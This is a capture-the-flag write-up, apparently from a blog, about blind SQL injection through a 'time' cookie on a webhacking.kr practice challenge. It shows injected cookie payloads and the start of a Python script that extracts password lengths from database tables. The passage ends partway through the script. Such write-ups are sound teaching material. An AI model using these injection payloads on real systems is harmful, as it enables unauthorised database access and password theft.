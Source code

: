 Anything looking suspicious ? Yes, the `admin/` directory is directly exposed and if you go the url, it asks for admin password. Alright, so what now ? SQLi in the admin password box ? Well, I tried everything I could, but didn't work. So I went back and took a look at the cookies in the page and I was suspicious when I saw a cookie named `time`. Strange isn't it ? Also, one more notable thing is that the time is commented in the page source code like this `<!--2015-06-13 12:53:02-->`. Did anyone notice that in the first look ? Well, I didn't !


Alright now let us tamper with cookies for sometime. I tried several things but then an idea struck me when I successfully got a Blind cookie based injection. Let us say the value of the `time` cookie is now `1434124382`. I just modified the cookie value to `1434124382 and 1=1` and in the source code, the time comment got changed to `2070-01-01 09:00:01`. Well that's strange isn't it ? Now let us make the condition false by changing the cookie to `1434124382 and 1=0` and I checked the source again. The comment just got changed to `2070-01-01 09:00:00`.

You got the point? The moment the condition goes wrong, the last bit of the comment changes to `0` and if the condition is true, the last bit is `1`. This is exactly what we wanted to have a successsful exploitation.

Also, in the same challenge, if you go to the [board section](http://webhacking.kr/challenge/web/web-02/bbs/index.php), you can see that there is a message on the board, and if you click on the subject, they will ask you for the password. So basically, we need 2 passwords for a successful exploitation. I assumed that the admin password will be saved in a table named `admin` and I got a hint that the board password is in a table named `FreeB0aRd`. The main problem with the Blind injection is that if we try to do the same manually, it will take too much time. So I tried automating it in python and here is my code:

{% highlight python lineos %}

#!/usr/bin/python3.4
# Written by Anirudh Anand (lucif3r) : email - anirudh@anirudhanand.com

# This is the solution to 0ldzombie's Webhacking.kr Challenge 2: Blind SQL Injection
# The script uses requests library in python 3.4

import re
import requests
__author__ = 'lucif3r'


class Challenge2:

    def __init__(self):
        print("[+] Blind SQL injection for 0ldzombie challenge 2")
        self.PHPSESSID = "1gmj9l627im3q87fb5822topk3"
        self.board_pass = ""
        self.admin_pass = ""
        self.board_pass_length = 0
        self.admin_pass_length = 0
        self.url = "http://webhacking.kr/challenge/web/web-02/"
        return

    def length_password(self, user):
        """
        This function is trying to understand the length of the password of users given as
        a parameter.

        :param user:    -> The name of the user whose password length has to be found out.
        :return:
        """
        for i in range(1, 15):
            cookies = dict(PHPSESSID=self.PHPSESSID, time='1434109174 and (select length (password) from ' +
                                                          str(user) + ') = ' + str(i))